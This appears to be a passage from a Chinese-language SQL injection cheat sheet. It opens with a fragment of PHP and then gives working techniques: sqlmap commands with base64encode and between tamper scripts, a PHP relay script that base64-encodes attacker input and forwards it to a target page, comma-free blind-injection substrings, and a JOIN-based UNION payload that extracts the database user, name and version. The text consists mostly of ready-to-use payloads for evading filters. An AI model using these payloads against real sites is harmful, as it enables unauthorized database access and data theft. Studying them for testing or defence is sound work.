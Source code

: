 ```php
    echo "1";
}else{
    echo "2";
}
```

### Base64变形注入
```
http://xxx.com/?id=MQ==        只加密参数
http://xxx.com/?aWQ9MQ==    连参数名一起加密了
```

**只加密参数，用sqlmap的脚本即可**
```bash
sqlmap -u http://xxx.com/?id=MQ== --tamper base64encode.py --dbs
```

**参数名也加密了，用中转注入**
```php
//trans_sqli.php
<?php
    $id=base64_encode("id=".$_GET['id']);
    echo file_get_contents("http://xxx.com/sqli.php?{$id}");    //sqli.php是原网页
?>
```

```bash
sqlmap-u "http://127.0.0.1/trans_sqli.php?id=12" -v3 --dbs
```

### 过滤了逗号怎么办

**盲注的时候**
```sql
LIMIT M OFFSET N    
--这里的 M 是最大回显限度，N是偏移量
--与limit N,M 有相同效果

' and ascii(substr((select database()),1,1))=xxx#
--可变为
' and ascii(substr((select database())from 1 for 1))=xxx#
```

**union联合查询注入时**
```sql
union select 1,2,3
union select * from ((select 1)a JOIN (select 2)b JOIN (select 3)c)%23

union select * from ((select 1)a JOIN (select 2)b JOIN (select CONCAT_WS(CHAR(32,58,32),user(),database(),version()))c)%23
```

### Between And代替 “>” 尖括号

在`sqlmap`中使用between and 代替其它字符加上 `--tamper=between` 即可
